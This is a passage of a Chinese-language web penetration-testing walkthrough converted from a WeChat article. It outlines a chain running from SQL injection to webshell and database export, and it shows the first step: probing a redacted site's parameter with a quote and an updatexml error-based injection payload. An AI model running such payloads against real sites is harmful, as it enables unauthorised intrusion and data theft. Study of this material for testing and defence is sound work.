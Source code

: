 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/HPSbhX9aFf5vNMdnZKxSiw)

![](https://mmbiz.qpic.cn/mmbiz_png/yv5xg29CADoqaxxZZFXJRfP8Sd0wCXgy21McgQ6Rsg6XvJGyZagbEXfjT24AzcMYEdALo2jDRODv3cWkbiaFibcw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWiaAkcXYjGFibvhEib9Fr7OicyeoEI1ya3AFaqyn5mK59V4OzgmXRyhN6Y1HGQv8WdrQfEMuXZZbgJmWw/640?wx_fmt=gif)

    因工作需要，封闭了一周，公众号一周未更新，今天终于解放，继续分享 web 渗透实战经验。**常学常新，慢就是快**。  

    本实战案例非常适合练手，从 sql 注入、后台管理员登录、上传绕过、webshell、服务器权限，一套完成的渗透流程。  

    后续将会对此站做**后渗透测试**。  

    本文章技术仅用于渗透安全测试**。**  

**涉及知识点：**

```
1、寻找注入点
2、寻找管理后台，目录扫描（dirmap）
3、寻找管理后台，扫描子域名（sublist3r 扫描到了子域名，找到后台）
4、sqlmap注入，获取管理员账号并解密
5、上传绕过，网站管理后台找到文件上传点（..php,后台过滤了.php）
6、蚁剑连接后查到到数据库文件，连接数据库连接成功
7、上传可以大马adminer.php（类似phpmyadmin可以直接连数据库）导出数据
```

**01**

寻找注入点  

  

网址 http://xx.xx.xx/

网站点击功能菜单跳转 http://xx.xx.xx/xx.php?pkey=6

在参数 6 后加上下引号，测试是否存在注入点

 http://xx.xx.xx/xx.php?pkey=6’ 

有回显报错

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONS790Z6WjIav104urbNWjJc6TLPkFrxTmAHouzUvKqkKMCTmgW4exkOVXnAa8XMTzVMkIWqfgDv0Q/640?wx_fmt=png)

```
Invalid query: You have an error in your SQL syntax;
 check the manual that corresponds to your MySQL 
 server version for the right syntax to use near ''6''' at line 7
```

用 updatexml 做报错注入测试

```
http://xx.xx.xx/xx.php?pkey=6%27%20
and%20updatexml(1,concat(0x3a,(select%20database())),1)%23
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONS790Z6WjIav104urbNWjJcrG1gCmoqASTfy246uNsFK1sVkaLdmJL77kOrlsHTibSKhibgm8nlAJJA/640?wx_fmt=png)
